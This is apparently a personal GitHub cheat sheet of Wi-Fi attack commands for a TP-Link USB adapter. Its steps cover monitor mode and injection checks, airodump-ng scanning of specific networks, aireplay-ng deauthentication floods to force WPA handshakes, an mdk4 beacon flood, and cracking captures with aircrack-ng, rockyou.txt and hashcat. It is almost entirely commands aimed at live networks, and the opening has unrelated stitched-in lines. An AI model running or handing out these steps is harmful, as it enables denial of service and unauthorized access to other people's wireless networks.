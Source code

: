product : https://www.startech.com.bd/tp-link-archer-t2u-plus-ac600-600mbps-usb-adapter
TP-Link AC600 Archer T2U Plus

tab -> select color  <br />
m -> pick a random color  <br />
s -> default sort by different range  <br />
i -> invert sort algorithm


## cheapset active check
```
sudo iwconfig
```

check adapter information mode:
```
sudo airmon-ng start wlx00117f1b8884 
```
or 
```
sudo airmon-ng start wlan0mon
SUDO airmon-ng check kill
```


check again is active monitor mode
```
iwconfig
```

inkjection mode check:
```
sudo aireplay-ng --test wlan0
```




1. show all wifi info/interface:
sudo airodump-ng wlan0mon
2. focus only channel 6
sudo airodump-ng wlan0mon -c 6 
3. specify network address info
sudo airodump-ng wlan0mon -c 6 --bssid 
4. capture the file
sudo airodump-ng wlan0mon -c 6 --bssid -w capture
5. caputre range 5ghz
sudo airodump-ng wlan0mon -b a





specific wifi connect device information:
```
sudo airodump-ng --bssid 54:AF:97:C7:D0:06 -c 9 wlan0mon
sudo airodump-ng --bssid 54:AF:97:C7:D0:06 -c 9 --write capture wlan0mon
```
shows that
 54:AF:97:C7:D0:06  3A:D8:79:90:6C:23   -1    1e- 0      0        2             
 54:AF:97:C7:D0:06  A2:0B:6B:10:88:9C  -86    2e- 1      0      277             
 54:AF:97:C7:D0:06  52:D5:C7:80:2D:88   -1    1e- 0      0       21 
i choose - 1
 54:AF:97:C7:D0:06  52:D5:C7:80:2D:88

get handshaking file
```
sudo aireplay-ng --deauth 10 -a [bssid] -c [station] wlan0mon
sudo aireplay-ng --deauth 10 -a 54:AF:97:C7:D0:06 -c 52:D5:C7:80:2D:88 wlan0mon
```
wireshark check using : eapol


flood attack
```
sudo mdk4 wlan0mon b -c 1 -f wifi.lst
```

****************************************************************************
# Capture Traffic & Nearby Wifi Networks
Capture the packets and export it to your machine / show target network & connected device
```
sudo airodump-ng --bssid [target-bssid] -c [channel-id] --write [filename] [network-adapter]
sudo airodump-ng --bssid 34:60:F9:71:04:C2 -c 4 --write wifitest wlan0mon
```

# Deauth the users that are connected to the target network
 User will need to input the wifi password to connect again
```
sudo aireplay-ng --deauth [number-of-packets(>50)] -a [target-bssid] [network-adapter]
sudo aireplay-ng --deauth 200 -a 34:60:F9:71:04:C2 wlan0mon
```
to test in wireshark : eapol


file the DOS attack is underway, check on your airodump scan. You should see at the right top : WPA handshake: <mac address>. Once you have verified that, you can stop the replay attack and the airodump-ng scan.
```
sudo airodump-ng --bssid [code] -c 3 --write phonehotspot wlan0mon
```

#CRACK THE PASSWORD
using bruth force : 
```
sudo aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt ../Captures_1578171018678/NinjaJc01-01.cap
```
****************************************************************************

Attack a specific BSSID:
```
aircrack-ng -b 02:1A:11:FF:D9:BD -w wordlist.txt capture_file.cap
```

aircrack-ng capture.cap -J output
getoutput : cap2hccapx
hashcat -m 2500 output.hccapx wordlist.txt --force

*****************************************************
